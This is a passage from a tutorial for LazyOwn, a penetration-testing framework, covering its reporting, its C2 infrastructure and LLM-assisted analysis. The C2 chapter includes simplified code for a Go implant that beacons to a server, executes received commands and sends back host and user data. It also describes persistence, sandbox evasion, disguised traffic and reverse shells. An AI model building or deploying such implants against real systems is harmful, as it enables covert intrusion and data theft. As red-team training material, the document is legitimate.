    User->Browser: Access LazyOwn Web (/report)
    Browser->LazyOwnWeb (lazyc2.py): Request /report
    LazyOwnWeb (lazyc2.py)->ReportFiles: Load various report files (session, tasks, cves, banners, body_report)
    LazyOwnWeb (lazyc2.py)-->Browser: Render comprehensive report page
```
*Explanation:* The user runs commands in the CLI, saving data to the `sessions/` directory. Commands like `banners` process this raw data into structured report files. The user can also interact with the web interface to add manual data (tasks, notes, CVEs) and write report sections, all saved to files. Finally, accessing the `/report` route displays a consolidated report page pulling from these different saved files.

## Conclusion

In this chapter, you learned about the vital role of **Documentation & Reporting** in your LazyOwn workflow. You saw how LazyOwn maintains its own documentation (using automated scripts like `readmeneitor.py`), and how it helps you report on your findings by:

*   Automatically logging commands and saving raw output.
*   Providing commands (like `banners`, `vulns`) to process raw data into structured formats.
*   Offering a web interface with dedicated sections (`/tasks`, `/cves`, `/notes`, `/teamserver`, `/report`) to manage and view different parts of your report, all stored in the `sessions/` directory.

You now understand how to not only use LazyOwn for penetration testing tasks but also how to document your process and report your results.

Reporting often includes details about accessing compromised systems or establishing persistent communication channels. This brings us to the next crucial aspect of LazyOwn: its **C2 Infrastructure**.

Let's move on to [Chapter 6: C2 Infrastructure](06_c2_infrastructure_.md)!

# Chapter 6: C2 Infrastructure

Welcome back to the LazyOwn tutorial! In our journey so far, you've learned how to set up LazyOwn ([Chapter 1: Deployment & Setup](01_deployment___setup_.md)), navigate its Command Line Interface ([Chapter 2: CLI Framework](02_cli_framework_.md)), use various Commands and Modules for tasks like scanning ([Chapter 3: Modules & Commands](03_modules___commands_.md)), manage configuration and remember your work with Parameters and Session Management ([Chapter 4: Parameters & Session Management](04_parameters___session_management_.md)), and even document your findings ([Chapter 5: Documentation & Reporting](05_documentation___reporting_.md)).

These are all essential skills for initial exploration and vulnerability identification. But what happens after you've successfully compromised a target system? You need a reliable way to maintain access, issue further commands, and retrieve more data, especially if you have multiple compromised systems to manage. Simply running one-off commands can be unreliable and difficult to coordinate across many targets.

This is where **C2 Infrastructure** comes into play.

## What is C2 Infrastructure?

**C2** stands for **Command and Control**. In penetration testing and red teaming, the C2 infrastructure is the system that allows you (the attacker) to communicate with and control the compromised systems (often called **implants** or **agents**) you've deployed on target networks.

Think of the C2 infrastructure as your central **command post**. Just like a military commander in a secure bunker needs to issue orders to agents in the field and receive intelligence back, you need a way to reliably interact with your implants.

The core problem the C2 infrastructure solves is persistent and discreet communication with compromised hosts. Once an implant is running on a target machine, it needs to know how to 'phone home' to you, get instructions, execute them, and send the results back without being easily detected.

In LazyOwn, the C2 infrastructure typically consists of two main parts:

1.  **The Server Component:** This is the central part running on your machine (or a server you control). In LazyOwn, this is primarily handled by the `lazyc2.py` script, which includes a web server to communicate with implants and manage results.
2.  **The Implant Code:** This is the small piece of code or executable that runs on the compromised target machine. It's designed to connect back to the server, receive commands, execute them, and send output back. In LazyOwn, the core implant code is written in Go (`sessions/implant/implant_crypt.go`) and compiled into an executable.

## A Central Use Case: Remotely Controlling a Compromised Host

Let's walk through a simple use case: You have successfully executed the LazyOwn implant on a target Windows machine. Now, from your LazyOwn command post, you want to remotely run the `hostname` command on that Windows machine and see its result.

This requires the C2 infrastructure:

1.  **The Implant is Running:** The compiled `implant_crypt.go` executable is running on the target Windows machine. It was configured (during compilation or setup) to know the address (`lhost` and `c2_port`) of your LazyOwn server running `lazyc2.py`.
2.  **The Implant "Beacons":** The implant periodically connects back to your `lazyc2.py` server. This is called **beaconing**. It checks if there are any commands waiting for it.
3.  **You Issue a Command:** From your LazyOwn CLI (or web interface), you tell the `lazyc2.py` server that you want to run `hostname` on this specific implant (identified by a unique `CLIENT_ID`).
4.  **The Server Queues the Command:** The `lazyc2.py` server receives your instruction and holds the `hostname` command, marking it for that specific implant's `CLIENT_ID`.
5.  **The Implant Receives the Command:** During its next beacon, the implant connects to the server, and the server responds, providing the `hostname` command.
6.  **The Implant Executes the Command:** The implant runs the `hostname` command on the target Windows system using the system's command interpreter (like `cmd.exe` or `powershell`).
7.  **The Implant Sends the Result:** The implant captures the output of the `hostname` command and sends it back to your `lazyc2.py` server during its next beacon or a dedicated upload.
8.  **You View the Result:** The `lazyc2.py` server receives the result and makes it available for you to view in the LazyOwn CLI or web interface.

This sequence allows you to maintain control and interact with the compromised host remotely and reliably, even if the connection isn't constant.

## The Components Explained

Let's look a bit closer at the two main components.

### The C2 Server (`lazyc2.py`)

As you saw in [Chapter 1: Deployment & Setup](01_deployment___setup_.md), running scripts like `fast_run_as_r00t.sh` or `mkdocker.sh` starts various LazyOwn components in `tmux` panes. One of these components is `lazyc2.py`.

The `lazyc2.py` script acts as the central hub. It uses a web framework (Flask) to listen for incoming connections from implants and serve the LazyOwn web interface.

Key functions of the `lazyc2.py` server in the context of C2:

*   **Listening for Implants:** It runs an HTTP/S server on a specific port (configured via `payload.json`, e.g., `c2_port`). Implants connect to this address.
*   **Receiving Beacon Requests:** Implants periodically make HTTP GET requests to the server to check for commands.
*   **Serving Commands:** If a command is queued for an implant, the server includes the command in its HTTP response to the implant's beacon request.
*   **Receiving Command Results:** Implants send the results of executed commands back to the server via HTTP POST requests.
*   **Storing Data:** It saves implant communication logs and command results (e.g., to `sessions/<client_id>.log` CSV files).
*   **Managing Implants:** It keeps track of connected implants (e.g., using the `connected_clients` set).
*   **Handling File Transfers:** It provides routes for implants to upload and download files (`/upload`, `/download/<path:file_path>`).
*   **Serving Configuration:** It provides the `/config.json` endpoint, which the implant can query to get configuration details (like the reverse shell port, beacon scan ports, and debug settings).

You interact with the `lazyc2.py` server component primarily through the main LazyOwn CLI or its web interface, not usually by directly interacting with the Flask application code.

### The Implant Code (`sessions/implant/implant_crypt.go`)

The Go implant is the piece that lives on the target. It's designed to be relatively small, self-contained, and perform its tasks quietly. The `implant_crypt.go` file is the source code that gets compiled into the actual executable you'd deploy.

When this executable runs on a target, it performs actions like:

*   **Reading Configuration:** It connects back to the LazyOwn server's `/config.json` endpoint to fetch configuration details (`ReadJSONFromURL` function in the Go code fetches the `LazyDataType` struct). Important C2 server details like `C2_URL`, `CLIENT_ID`, `SLEEP`, `MALEABLE`, `USER_AGENT` are also often *templated* directly into the Go source file before compilation, ensuring the implant knows where to go from the start.
*   **Beaconing Loop:** It enters a loop where it repeatedly performs these steps: sleep for a set interval (`SLEEP`), construct a request to the C2 server (including its `CLIENT_ID`), send the request, receive the response, and process it.
*   **Fetching Commands:** It makes HTTP GET requests to the server URL, including its unique `CLIENT_ID` in the path (e.g., `/command/implant_123` or using the `MALEABLE` route like `/gmail/v1/users/implant_123`).
*   **Executing Commands:** If the server's response contains a command, the implant executes it on the target system using the appropriate shell (`executeCommandWithRetry` calls `os/exec.Command`).
*   **Sending Results:** After executing a command, it sends the output back to the C2 server via an HTTP POST request to the same URL, including the result, its `CLIENT_ID`, hostname, IP, user, etc.
*   **File Transfers:** It handles `upload` and `download` commands received from the server by making appropriate HTTP requests to the server's file transfer routes (`handleUpload`, `handleDownload`).
*   **Persistence:** It attempts to establish persistence mechanisms (like scheduled tasks on Windows or cron jobs/systemd services on Linux) so it restarts if the compromised machine reboots (`ensurePersistence`).
*   **Anti-Analysis Checks:** It might perform checks to see if it's running in a virtual machine, sandbox, or being debugged (`isVMByMAC`, `isSandboxEnvironment`, `checkDebuggers`) and potentially alter its behavior or stop if detected.
*   **Encryption:** It encrypts command requests and decrypts responses, and vice-versa for results, using AES encryption with a key shared between the server and implant (`EncryptPacket`, `DecryptPacket`). This encrypts the C2 traffic itself.
*   **Maleable C2:** It uses the `MALEABLE` route and potentially different `USER_AGENT` strings (`USER_AGENTS` slice) to make its HTTP traffic appear less suspicious and blend in with normal web traffic.

The Go implant is built to be resilient and adaptable based on the commands it receives and its environment.

## Under the Hood: The Communication Flow

Let's visualize the basic beaconing and command execution flow using the core HTTP/S C2:


*Explanation:* The implant constantly 'beacons' home to the server with a GET request. The server responds, potentially giving it a command. The implant runs the command and sends the result back via a POST request. Meanwhile, you interact with the server to queue commands or view results.

### Code Snippets Walkthrough

Let's look at simplified code examples showing parts of this interaction:

**Implant (Go) - Beaconing Loop & Request:**

```go
// --- Simplified Implant Go code (implant_crypt.go) ---
// ... (variables like C2_URL, CLIENT_ID, SLEEP, MALEABLE, USER_AGENTS defined) ...

func main() {
    // ... (setup: init encryption, load config from C2 /config.json) ...

    shellCommand := getShellCommand("-c") // Get native shell command based on OS
    baseCtx := context.Background()

    for { // The infinite beaconing loop
        func() { // Use a function scope for deferred recover/cancel
            defer globalRecover() // Restart if panic

            ctx, cancel := context.WithTimeout(baseCtx, 180*time.Second) // Context with timeout for request
            defer cancel()

            // Construct the URL for this implant
            beaconURL := C2_URL + MALEABLE + CLIENT_ID
            
            // Send the GET request to check for commands
            resp, err := retryRequest(ctx, beaconURL, "GET", "", "") // retryRequest handles encryption/decryption
            if err != nil {
                // Handle error (e.g., C2 down)
                return // Go back to sleep
            }

            body, err := io.ReadAll(resp.Body)
            if err != nil {
                // Handle error reading response
                return // Go back to sleep
            }

            command := strings.TrimSpace(string(body))
            if command == "" {
                // No command received, just beaconed
                return // Go back to sleep
            }

            // --- If command received ---
            // Handle special commands like 'stealth_on', 'terminate', etc.
            handleStealthCommand(command, lazyconf)

            // If not a stealth command or stealth is off, execute it
            if !strings.Contains(command, "stealth") && !stealthModeEnabled {
                switch {
                    case strings.HasPrefix(command, "download:"):
                        handleDownload(ctx, command)
                    // ... other special commands ...
                    default:
                        // Execute the general command
                        handleCommand(ctx, command, shellCommand, lazyconf, currentPortScanResults)
                }
            }
        }() // End of the function scope

        // Sleep before the next beacon
        sleepTime := calculateJitteredSleep(baseSleepTime, minJitterPercentage, maxJitterPercentage)
        time.Sleep(sleepTime)
    }
}

// Simplified function to execute a command and send result back
func handleCommand(ctx context.Context, command string, shellCommand []string, lazyconf LazyDataType, resultadosEscaneo map[string][]int) {
    // Execute the command on the system
    output, err := executeCommandWithRetry(shellCommand, command) // executeCommandWithRetry runs cmd, captures output

    // Get system info
    pid := os.Getpid()
    hostname, _ := os.Hostname()
    ips := getIPs() // Get local and maybe global IP

    // Create JSON data with result and info
    jsonData, _ := json.Marshal(map[string]interface{}{
        "output":          output,
        "client":          runtime.GOOS, // OS name (windows, linux, darwin)
        "command":         command,
        "pid":             strconv.Itoa(pid),
        "hostname":        hostname,
        "ips":             strings.Join(ips, ", "),
        "user":            currentUser.Username, // Current user on target
        "discovered_ips":  discoveredLiveHosts, // IPs found during initial discovery
        "result_portscan": resultadosEscaneo,   // Port scan results if done
    })

    // Send the JSON data back to the C2 server via POST
    c2ResultURL := C2_URL + MALEABLE + CLIENT_ID
    retryRequest(ctx, c2ResultURL, "POST", string(jsonData), "") // retryRequest handles encryption
}
// --- End Simplified Implant Go code ---
```
*Explanation:* The main loop in the implant Go code wakes up after a sleep period, constructs a URL containing its unique ID, and sends a GET request (`retryRequest`) to the C2 server to fetch a command. If a command is received, it uses a `switch` statement to check for special commands (like `download`, `upload`, `stealth_on`) or executes it as a general system command (`handleCommand`). The `handleCommand` function runs the command (`executeCommandWithRetry`), gathers system information, formats everything into a JSON object, and sends it back to the server via a POST request to the same URL.

**C2 Server (`lazyc2.py`) - Handling Implant Requests:**

```python
# --- Simplified C2 Server Python code (lazyc2.py) ---
from flask import Flask, request, jsonify, Response
import json
import os
import csv
import base64
# Assume AES_KEY, encrypt_data, decrypt_data, connected_clients, commands dict are defined

app = Flask(__name__)

# Define the base maleable route
route_maleable = "/gmail/v1/users/" # Example route from config

# Dictionary to hold commands waiting for implants {client_id: command_string}
commands = {}
# Dictionary to hold the last received results {client_id: result_dict}
results = {}
# Set to track connected client IDs
connected_clients = set()
# Assume ALLOWED_DIRECTORY is configured for saving logs

@app.route(f'{route_maleable}<client_id>', methods=['GET'])
def send_command(client_id):
    """Handles implant beacon (GET request to fetch commands)."""
    connected_clients.add(client_id) # Mark client as connected
    
    if client_id in commands:
        # Command is waiting, get it and remove from queue
        command = commands.pop(client_id)
        print(f"[C2] Sending command '{command}' to client {client_id}")
        encrypted_command = encrypt_data(command.encode()) # Encrypt the command
        return Response(encrypted_command) # Send encrypted command
    else:
        # No command waiting, return empty encrypted response
        print(f"[C2] No command for client {client_id}")
        encrypted_response = encrypt_data(b'') # Empty byte string encrypted
        return Response(encrypted_response, mimetype='application/octet-stream')

@app.route(f'{route_maleable}<client_id>', methods=['POST'])
def receive_result(client_id):
    """Handles implant sending results (POST request)."""
    try:
        print(f"[C2] Receiving result from client {client_id}")
        encrypted_data = request.get_data() # Get the encrypted data from POST body
        
        # Decrypt the received data
        decrypted_data = decrypt_data(encrypted_data).decode('utf-8')
        
        # Parse the JSON data sent by the implant
        data = json.loads(decrypted_data)

        # Validate expected keys in the JSON data
        if not data or not all(key in data for key in ['output', 'command', 'client', 'pid', 'hostname', 'ips', 'user']):
            print(f"[C2 ERROR] Invalid data format from {client_id}")
            return jsonify({"status": "error", "message": "Invalid data format"}), 400

        output = data['output']
        implant_os = data['client'] # OS from the implant
        command = data['command']
        # ... extract other info like pid, hostname, ips, user ...

        # Validate client_id format for safety (important for file paths)
        sanitized_client_id = ''.join(c for c in client_id if c.isalnum() or c in '-_')
        if not sanitized_client_id or sanitized_client_id != client_id:
             print(f"[C2 ERROR] Invalid client_id format received: {client_id}")
             return jsonify({"status": "error", "message": "Invalid client_id format"}), 400

        # Define the log file path (within allowed directory)
        log_file_path = os.path.join(ALLOWED_DIRECTORY, f"{sanitized_client_id}.log")
        
        # --- Security check: Ensure path is within allowed directory ---
        allowed_directory_abs = os.path.abspath(ALLOWED_DIRECTORY)
        log_file_abs = os.path.abspath(log_file_path)
        if not log_file_abs.startswith(allowed_directory_abs + os.sep):
             print(f"[C2 ERROR] Path traversal attempt detected: {log_file_abs}")
             return jsonify({"status": "error", "message": "Invalid file path"}), 403
        # --- End Security Check ---

        # Append the received data to the client's log file (CSV format)
        file_exists = os.path.isfile(log_file_abs)
        with open(log_file_abs, 'a', newline='') as f:
            writer = csv.writer(f)
            if not file_exists: # Write header if it's a new file
                writer.writerow(["client_id", "os", "pid", "hostname", "ips", "user", "discovered_ips", "result_portscan", "command", "output"])

            # Write the data row (be careful with potential delimiter issues in data)
            # Using safe_data approach seen in actual lazyc2.py
            safe_data = [
                 str(sanitized_client_id),
                 str(implant_os)[:100], # Truncate potentially long fields
                 str(data.get('pid', ''))[:20],
                 str(data.get('hostname', ''))[:100],
                 str(data.get('ips', ''))[:100],
                 str(data.get('user', ''))[:50],
                 str(data.get('discovered_ips', ''))[:1000],
                 str(data.get('result_portscan', ''))[:1000],
                 str(command)[:500],
                 str(output)[:1000],
            ]
            writer.writerow(safe_data)

        # Store the latest result in the 'results' dict (used by web interface)
        results[sanitized_client_id] = data

        print(f"[C2] Received result from {sanitized_client_id}. Output: {output[:100]}...") # Log snippet of output
        connected_clients.add(sanitized_client_id) # Ensure client is marked as connected
        return jsonify({"status": "success", "Platform": implant_os}), 200 # Acknowledge receipt

    except json.JSONDecodeError:
        print(f"[C2 ERROR] Invalid JSON received from {client_id}")
        return jsonify({"status": "error", "message": "Invalid JSON"}), 400
    except Exception as e:
        print(f"[C2 ERROR] Unexpected error processing result from {client_id}: {e}")
        return jsonify({"status": "error", "message": "Internal server error"}), 500

# --- Simplified command to issue commands from CLI (conceptual, lazyown.py talks to lazyc2.py) ---
# In lazyown.py (or a module), there would be a command handler like do_issue_command_to_c2:
# class LazyOwnShell(cmd2.Cmd):
#    def do_issue_command_to_c2(self, args):
#        """Issue a command to a connected implant."""
#        parts = args.split(maxsplit=1)
#        if len(parts) != 2:
#            self.poutput("Usage: issue_command_to_c2 <client_id> <command>")
#            return
#        client_id = parts[0]
#        command_to_send = parts[1]
#
#        # This is simplified. In reality, this command likely adds the command
#        # to a shared queue that the lazyc2.py Flask app reads from,
#        # or uses an internal mechanism to update the 'commands' dict used by the Flask app.
#        # A direct HTTP request from CLI to Flask on localhost is also possible but less common.
#        commands[client_id] = command_to_send # Add command to the queue for this client
#        self.poutput(f"Command '{command_to_send}' queued for client {client_id}")
# --- End Simplified Conceptual Command ---
```
*Explanation:* The C2 server code defines Flask routes that match the URL structure the implant uses (`/<maleable route>/<client_id>`). The `GET` handler checks the `commands` dictionary for any commands queued for that `client_id`, encrypts one if found, and returns it. The `POST` handler receives encrypted data, decrypts it, parses the JSON containing the command output and implant details, saves it to a client-specific log file in the `sessions/` directory, and updates the `results` dictionary which is used by the web interface (`/`) to display the latest implant data. The conceptual CLI command `issue_command_to_c2` demonstrates how a user interaction queues a command for an implant by adding it to the `commands` dictionary.

## Configuring the C2

Setting up the C2 requires configuring both the server (`lazyc2.py`) and the implant (`implant_crypt.go`).

1.  **Server Configuration (`payload.json`):** The `lazyc2.py` script loads its configuration from `payload.json` using `load_payload()`. This file specifies:
    *   `lhost`: Your LazyOwn server's IP address (the IP the implant will connect *to*).
    *   `c2_port`: The port `lazyc2.py` listens on for implants.
    *   `c2_maleable_route`: The obscure URL path implants will use (e.g., `/gmail/v1/users/`).
    *   `user_agent_win`, `user_agent_lin`: User agents implants might use.
    *   `reverse_shell_port`: The port used for reverse shells initiated by implants.
    *   `beacon_scan_ports`: Ports the implant should scan during initial discovery.
    *   `enable_c2_implant_debug`: Controls implant debug output.

2.  **Implant Configuration (Go Source):** The `implant_crypt.go` source file is a template. Before compilation, values like `C2_URL`, `CLIENT_ID`, `SLEEP`, `MALEABLE`, `USER_AGENT`, `LHOST`, and crucially the `keyHex` (AES encryption key) are inserted directly into the source code. This means the compiled implant executable is hardcoded with the address of *your* C2 server and the shared secret key for encryption.
    *   The `CLIENT_ID` should be unique for each implant deployment so the server knows which compromised host it's talking to. LazyOwn likely handles generating this when you prepare an implant.
    *   The `keyHex` is generated by LazyOwn and saved (e.g., `sessions/key.aes` seen in `lazyc2.py`) so the server and implant share the same key.

**Creating the Implant Executable:** You would typically use a LazyOwn command (not shown in snippets, but part of its capabilities) to generate and compile the Go implant, baking in the necessary configuration (C2 address, ID, key, etc.).

## Security Features

LazyOwn incorporates several features into its C2 to make it more robust and stealthy:

*   **Encryption:** Using AES (`EncryptPacket`, `DecryptPacket`), the actual commands and results are encrypted over the wire, preventing simple eavesdropping. The shared key (`keyHex`/`AES_KEY`) is essential here.
*   **Maleable C2:** Using obscure URLs (`MALEABLE`) and common user agents (`USER_AGENTS`) helps the C2 traffic blend in with legitimate web traffic, potentially evading detection based on simple signatures.
*   **Beaconing:** Instead of maintaining a persistent connection (which can be easily spotted), the implant connects periodically (`SLEEP`), making the communication less obvious.
*   **Persistence:** Built-in persistence mechanisms (`ensurePersistence`) help the implant survive system reboots.
*   **Anti-Analysis:** Checks for VMs, sandboxes, and debuggers allow the implant to behave differently or shut down if it suspects it's being analyzed.

These features are crucial for a C2 system used in realistic scenarios.

## Other C2 Methods (Briefly)

While the HTTP/S beaconing implant is a primary method, LazyOwn's code hints at other possibilities:

*   **Reverse Shells:** The implant can initiate a reverse shell connection (`SendShell`), giving you a direct, interactive shell (`rev:` command). This is less stealthy than beaconing but useful for immediate interaction.
*   **DNS C2:** The `lazyc2.py` code includes a `CustomDNSResolver` and `start_dns_server` on port 53. This suggests capability for DNS-based C2, where commands and data are encoded within DNS queries and responses. This can be very stealthy as DNS traffic is common.
*   **Third-Party Platform C2:** The `telegram_c2.py` and `discord_c2.py` files demonstrate using messaging platforms like Telegram or Discord as a *control channel* to *issue commands to the LazyOwn C2 server*. The actual implant still talks to `lazyc2.py`, but you can interact with `lazyc2.py` via a bot on these platforms. This adds flexibility for the operator but the core C2 beaconing remains the same.

For beginners, focusing on the core HTTP/S C2 (server listening, implant beaconing/requesting/posting) is the most important concept.

## Conclusion

In this chapter, you learned about LazyOwn's **C2 Infrastructure**, the vital system for maintaining communication and control over compromised hosts. You saw how it consists of a central server component (`lazyc2.py`) and implant code (`implant_crypt.go`) running on targets. You understood the beaconing process, how commands are issued and received, and how results are sent back. You also got a glimpse into the configuration via `payload.json` and templated Go source, and some of the built-in security features like encryption and maleability.

You now have a foundational understanding of how LazyOwn manages its agents in the field, a critical aspect of penetration testing and red teaming. The data collected via C2 (like scan results, system info, command output) is incredibly valuable.

This wealth of data is perfect for analysis. In the next chapter, we'll explore how LazyOwn leverages **AI Integration** to process this information, assist with tasks, and potentially even help automate aspects of your operations.

Let's move on to [Chapter 7: AI Integration](07_ai_integration_.md)!

# Chapter 7: AI Integration

Welcome back to the LazyOwn tutorial! In the last chapter, [Chapter 6: C2 Infrastructure](06_c2_infrastructure_.md), you learned how LazyOwn can maintain control over compromised systems using its C2 server and implants, collecting valuable data like system information, command output, and scan results in your `sessions/` directory.

Having this stream of data is incredibly powerful, but manually sifting through logs, analyzing scan findings, identifying vulnerabilities, and figuring out the next best steps can be time-consuming and complex. This is where the concept of **AI Integration** comes into play.

LazyOwn leverages the power of Artificial Intelligence, specifically **Large Language Models (LLMs)**, to act as your virtual co-pilot. It helps you process the vast amount of data collected during an engagement, automate analysis, and even suggest actions.

Think of it like this: You're a busy detective, and your agents in the field (the implants) are sending back piles of reports (scan results, logs, gathered intel). Instead of staying up all night reading every single one yourself, you have a super-smart assistant (the AI) that can quickly read through the reports, highlight the most important findings, connect the dots, and even suggest what questions you should ask your agents next or which tools you should use.

## The Problem: Information Overload

In a real penetration test or red team operation, especially against larger networks, you can quickly accumulate:

*   Thousands of lines of log data.
*   Detailed output from multiple scans (Nmap, Gobuster, etc.).
*   Lists of users, shares, credentials.
*   Error messages or interesting details from automated tools.

Identifying patterns, finding hidden clues (like a password snippet in a log file), mapping services to potential vulnerabilities, or figuring out the command to exploit a specific service manually requires significant expertise and effort.

## The Solution: AI-Powered Assistance

LazyOwn's AI Integration aims to tackle this information overload by using LLMs to:

*   **Analyze Scan Results:** Automatically parse Nmap output (like service versions) and suggest potential vulnerabilities (CVEs) or follow-up actions.
*   **Process Logs:** Monitor log files for suspicious patterns or extract key information like IP addresses, usernames, or error details.
*   **Suggest Commands:** Based on the analyzed data and your current context, recommend the next relevant LazyOwn commands to run.
*   **Provide Contextual Information:** Answer questions about the collected data using a knowledge base built from your session's files.
*   **Analyze Code/Scripts:** Potentially review code snippets found on target systems for security flaws or functionality.

This doesn't replace your expertise, but it augments it, helping you find crucial information faster and guiding you through complex workflows.

## A Central Use Case: Analyzing Nmap Output

Let's revisit the Nmap scan example from [Chapter 3: Modules & Commands](03_modules___commands_.md). You scanned a target IP (`192.168.1.10`) and got output showing open ports and service versions:

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
```

Manually, you'd look up "OpenSSH 8.2p1" or "Apache httpd 2.4.41" to find known vulnerabilities (CVEs). You'd then think about commands to test those vulnerabilities or gather more info.

LazyOwn's AI Integration can automate this analysis.

1.  **Scan Output Saved:** The `nmap` command saves its output, likely in XML or text format, into the `sessions/` directory (as mentioned in [Chapter 5: Documentation & Reporting](05_documentation___reporting_.md)).
2.  **AI Monitors/Processes:** LazyOwn's AI component (specifically, parts related to vulnerability analysis, like `lazygptvulns.py`, or the background `LazySentinel`) detects or is told to analyze this new scan file.
3.  **AI Analyzes:** The AI reads the Nmap output. It identifies the services and their versions. It then uses its training data (or potentially a local vulnerability database) to match these services/versions to known CVEs.
4.  **AI Suggests:** The AI provides you with:
    *   A summary of the findings (e.g., "Found OpenSSH 8.2p1 and Apache 2.4.41").
    *   A list of potential vulnerabilities (CVE IDs) related to those versions.
    *   Suggestions for the next steps or specific LazyOwn commands to investigate or exploit these findings (e.g., "Try brute-forcing SSH", "Look for web directories with gobuster").

This transforms raw data into actionable intelligence and recommended commands, saving you time and potentially uncovering things you might have missed.

## Key Concepts & How LazyOwn Uses AI

LazyOwn employs several modules and mechanisms for AI integration:

1.  **The LLM Connection:** LazyOwn doesn't *contain* the LLM itself (these models are huge!). Instead, it connects to LLMs running locally or via an API. The provided code snippets show connections to:
    *   **Ollama:** A platform to run LLMs locally (like DeepSeek `deepseek-r1:1.5b`).
    *   **Groq:** A service providing fast access to LLMs (like Llama3 `llama3-70b-8192`) via an API key.
    LazyOwn sends text (prompts, file content, questions) to these LLMs and receives text responses back.

    ```python
    # Simplified concept from various modules (lazygptvulns.py, lazygptcli5.py, lazy_sentinel4.py)
    import requests # For local Ollama API
    from groq import Groq # For Groq API

    # Option 1: Local Ollama
    def query_ollama(prompt):
        url = "http://localhost:11434/api/generate"
        model = "deepseek-r1:1.5b" # Or another model you have installed
        try:
            response = requests.post(url, json={"model": model, "prompt": prompt, "stream": False})
            if response.status_code == 200:
                return response.json().get("response", "")
            return f"Error: API status code {response.status_code}"
        except Exception as e:
            return f"Error querying Ollama: {e}"

    # Option 2: Groq API
    def query_groq(prompt, api_key):
        client = Groq(api_key=api_key) # Requires GROQ_API_KEY env var or passing here
        try:
            chat_completion = client.chat.completions.create(
                messages=[{"role": "user", "content": prompt}],
                model="llama3-70b-8192", # Or another available model
            )
            return chat_completion.choices[0].message.content.strip()
        except Exception as e:
            return f"Error querying Groq: {e}"
    ```
    *Explanation:* LazyOwn's code prepares text (`prompt`) and sends it to either a local Ollama server or the Groq cloud API using standard libraries like `requests` or the specific `groq` Python client. The LLM processes the prompt and sends a text response back.

2.  **Contextual Prompting:** Simply sending a raw log file to an LLM isn't always effective. LazyOwn prepares **prompts** that include:
    *   Instructions for the AI (e.g., "Analyze this Nmap output...", "Find suspicious activity in these logs...").
    *   The actual data to be analyzed (log lines, scan results, file content).
    *   Additional context from your session parameters (`rhost`, `lhost`, domain) to make suggestions more relevant.
    *   Potentially relevant snippets from a built-in knowledge base (like `COMMANDS.md`) to help the AI suggest valid LazyOwn commands.

    ```python
    # Simplified concept from modules/lazygptvulns.py
    # Assume rhost, domain, payload.json config is loaded
    # Assume content is the text read from the Nmap output file

    def create_nmap_analysis_prompt(nmap_content, rhost, domain):
        prompt = f"""
        Analyze the following NMAP output generated by Nmap...
        Based on your analysis, generate a detailed action plan...
        You can provide me with commands to recon that include the IP address {rhost} and domain: {domain}...
        
        Nmap output:
        {nmap_content[:10000]} # Truncate large files
        """
        return prompt

    # Later, in the command handler:
    # nmap_output = read_file(file_path)
    # prompt = create_nmap_analysis_prompt(nmap_output, rhost, domain)
    # ai_response = query_groq(prompt, api_key)
    # print(ai_response)
    ```
    *Explanation:* Before calling the AI, LazyOwn crafts a specific instruction (`prompt`) that includes the necessary context (file content, target details) to guide the AI towards generating a useful, relevant response. Large inputs might be truncated.

3.  **AI Response Parsing:** The AI responds with text. This text might contain the summary, suggested commands, vulnerability IDs, etc. LazyOwn needs to read and understand this structured text response. Sometimes, the AI is asked to format the response in a specific way (e.g., JSON or with clear headings) to make parsing easier.

    ```python
    # Simplified concept from lazy_sentinel4.py's parse_deepseek_response
    import re

    def parse_deepseek_response(response_text: str) -> dict:
        """Parse DeepSeek's plain text response into a dictionary."""
        result = {
            "relevant_info": "No info extracted.",
            "commands": [],
            "details": "No additional details."
        }

        # Use regular expressions to find sections based on expected headings
        relevant_info_match = re.search(r'Relevant Information:\s*(.*?)(?=\nSuggested Commands|$)', response_text, re.DOTALL)
        commands_match = re.search(r'Suggested Commands:\s*(.*?)(?=\nDetails|$)', response_text, re.DOTALL)
        details_match = re.search(r'Details:\s*(.*)', response_text, re.DOTALL)

        if relevant_info_match:
            result["relevant_info"] = relevant_info_match.group(1).strip()
        if commands_match:
            commands_text = commands_match.group(1).strip()
            if commands_text.lower() != "none":
                 # Split commands by comma or newline
                result["commands"] = [cmd.strip() for cmd in commands_text.replace('\n', ',').split(',') if cmd.strip()]
        if details_match:
            result["details"] = details_match.group(1).strip()

        return result

    # Example Usage:
    # ai_text = "Relevant Information: Found open ports 22, 80, 443.\nSuggested Commands: nmap -sV, bruteforce ssh\nDetails: Services identified."
    # parsed_data = parse_deepseek_response(ai_text)
    # print(parsed_data["suggested_commands"]) # Output: ['nmap -sV', 'bruteforce ssh']
    ```
    *Explanation:* LazyOwn uses pattern matching (like regular expressions `re`) to extract specific pieces of information (summary, command list) from the AI's text response, even if it's just plain text with headings.

4.  **Retrieval Augmented Generation (RAG):** The `lazy_sentinel4.py` script implements a RAG system. This is an advanced technique where, instead of the AI relying *only* on its general training data, it first searches a dedicated knowledge base (your collected session files stored in a **vector database** like ChromaDB) for information relevant to your query or the file it's analyzing. It then includes this *specific, relevant* information in the prompt it sends to the LLM. This ensures the AI's response is highly relevant to your current task and collected data, not just general advice.

    ```python
    # Simplified RAG flow concept from lazy_sentinel4.py's RAGManager
    from langchain_chroma import Chroma # Vector database
    from langchain_ollama import OllamaEmbeddings # For creating vector representations
    from langchain_text_splitters import RecursiveCharacterTextSplitter # To break files into chunks

    class RAGManager:
        def __init__(self, model_name, persist_dir):
            self.embeddings = OllamaEmbeddings(model=model_name)
            self.vectorstore = Chroma(persist_directory=persist_dir, embedding_function=self.embeddings)
            self.retriever = self.vectorstore.as_retriever()

        def add_file(self, file_path):
            # Load file, split into chunks
            loader = TextLoader(str(file_path)) # Example for text files
            data = loader.load()
            chunks = RecursiveCharacterTextSplitter(chunk_size=500).split_documents(data)

            # Add chunks to the vector database
            self.vectorstore.add_documents(documents=chunks)
            self.vectorstore.persist() # Save to disk

        def query_rag(self, question):
            # 1. Retrieve relevant chunks from vector DB based on question
            retrieved_docs = self.retriever.invoke(question)

            # 2. Combine retrieved chunks into context
            context = "\n\n".join(doc.page_content for doc in retrieved_docs)

            # 3. Format prompt with context and question
            prompt = f"Question: {question}\n\nContext: {context}\n\nAnswer:"

            # 4. Send prompt to LLM (e.g., self.ollama_llm(prompt))
            llm_response = "..." # Get response from LLM

            return llm_response
    ```
